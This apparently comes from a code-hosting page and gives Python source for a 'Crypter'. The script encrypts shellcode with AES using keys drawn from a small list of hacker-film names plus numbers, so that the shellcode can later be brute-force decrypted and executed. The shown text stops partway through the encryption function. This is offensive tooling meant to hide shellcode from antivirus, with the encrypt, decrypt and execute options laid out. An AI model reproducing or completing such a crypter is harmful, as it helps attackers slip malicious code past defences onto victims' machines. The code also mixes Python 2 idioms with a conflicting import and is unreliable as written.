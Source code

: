 ## Crypter

```python
from Crypto.Cipher import AES
from Crypto.Random import random
import argparse
import random
import sys
import os

#doing argument parsing
parser = argparse.ArgumentParser(add_help=True)
parser.add_argument("inp", type=str, help="shellcode to encrypt/decrypt/execute")
parser.add_argument("-e", "--encrypt", help="encrypt shellcode",
                    action="store_true")
parser.add_argument("-d", "--decrypt", help="decrypt shellcode",
                    action="store_true")
parser.add_argument("-x", "--execute", help="execute shellcode",
                    action="store_true")
args = parser.parse_args()
inp = args.inp
inp = inp.replace("\\x","")
shellcode = inp.decode("hex")

#setting up some globals
iv = "1337" * 4

#this is where we generate our key space, a little over 1.4 million keys
nameList = ["Kate Libby_", "Ramon Sanch", "Paul Cook__", "Eugene Belf", "Dade Murphy", "Joey Pardel", "Em Goldstei", "Elliot Alde", "Darlene____", "Tyrell Well", "White Rose_", "Falken_____", "David______", "Nick Hathaw", "Chen Lien__", "Stanley____"]

numGen = list(range(10000,100000))

keyList = []

for x in nameList:
	for y in numGen:
		keyList += [x + str(y)]

def encrypt():
	try:
		global shellcode
		global iv
		global keyList
		key = random.choice(keyList)

		#Let's get our shellcode up to 32 bytes (has to be multiple of 16)

		shellPad = 32 - len(shellcode)

		shellPadBytes = b'\xff' * shellPad

		shellcode = shellPadBytes + shellcode

		#This is where we do our actual encryption!
		aes = AES.new(key, AES.MODE_CBC, iv)
		data = shellcode
		encd = aes.encrypt(data)

		#Let's get it into printable format!
		output = "" 

```